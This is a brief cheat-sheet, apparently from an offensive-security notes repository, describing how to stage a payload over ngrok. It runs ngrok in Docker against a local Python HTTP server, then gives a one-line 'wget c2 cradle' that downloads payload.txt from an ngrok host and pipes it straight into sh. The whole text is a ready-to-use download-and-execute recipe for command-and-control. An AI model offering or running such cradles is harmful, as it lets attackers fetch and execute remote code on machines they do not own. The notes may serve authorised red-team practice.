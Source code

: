 # Ngrok wget execute (http)

```
docker run -it -e NGROK_AUTHTOKEN=<ngrok_authtoken> ngrok/ngrok http host.docker.internal:8081 --region=us --hostname=site.ngrok.io -auth="user:password"
```

Run ngrok with Docker pointing to localhost (host machine) using hostname with auth (Requires ngrok pro)

```
python3 -m http.server 8081
```

Setup python3 http server on port 8081 (host machine)

```
wget -O- --user=user --password='password' http://sneakerhax.ngrok.io/payload.txt 2>/dev/null | sh
```

Basic wget c2 cradle payload execution
